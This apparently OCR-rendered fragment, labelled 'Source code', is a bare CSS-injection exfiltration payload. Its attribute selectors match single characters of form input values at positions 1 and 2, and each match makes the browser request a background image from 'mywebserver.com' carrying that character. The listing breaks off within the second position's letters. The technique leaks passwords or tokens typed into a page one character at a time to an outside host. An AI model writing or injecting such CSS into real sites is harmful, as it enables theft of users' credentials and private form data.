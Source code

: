 ```
input[value=W]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=W"); }
input[value=X]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=X"); }
input[value=Y]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=Y"); }
input[value=Z]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=Z"); }
input[value=a]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=a"); }
input[value=b]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=b"); }
input[value=c]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=c"); }
input[value=d]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=d"); }
input[value=e]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=e"); }
input[value=f]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=f"); }
input[value=g]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=g"); }
input[value=h]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=h"); }
input[value=i]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=i"); }
input[value=j]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=j"); }
input[value=k]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=k"); }
input[value=l]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=l"); }
input[value=m]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=m"); }
input[value=n]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=n"); }
input[value=o]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=o"); }
input[value=p]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=p"); }
input[value=q]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=q"); }
input[value=r]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=r"); }
input[value=s]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=s"); }
input[value=t]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=t"); }
input[value=u]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=u"); }
input[value=v]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=v"); }
input[value=w]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=w"); }
input[value=x]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=x"); }
input[value=y]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=y"); }
input[value=z]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=z"); }
input[value=0]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=0"); }
input[value=1]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=1"); }
input[value=2]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=2"); }
input[value=3]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=3"); }
input[value=4]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=4"); }
input[value=5]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=5"); }
input[value=6]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=6"); }
input[value=7]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=7"); }
input[value=8]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=8"); }
input[value=9]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=9"); }

input[value=A]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=A"); }
input[value=B]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=B"); }
input[value=C]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=C"); }
input[value=D]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=D"); }
input[value=E]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=E"); }
input[value=F]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=F"); }
input[value=G]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=G"); }
input[value=H]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=H"); }
input[value=I]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=I"); }
input[value=J]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=J"); }
input[value=K]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=K"); }
input[value=L]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=L"); }
input[value=M]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=M"); }
input[value=N]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=N"); }
input[value=O]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=O"); }
input[value=P]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=P"); }
input[value=Q]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=Q"); }
input[value=R]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=R"); }
input[value=S]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=S"); }
input[value=T]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=T"); }
input[value=U]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=U"); }
input[value=V]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=V"); }
```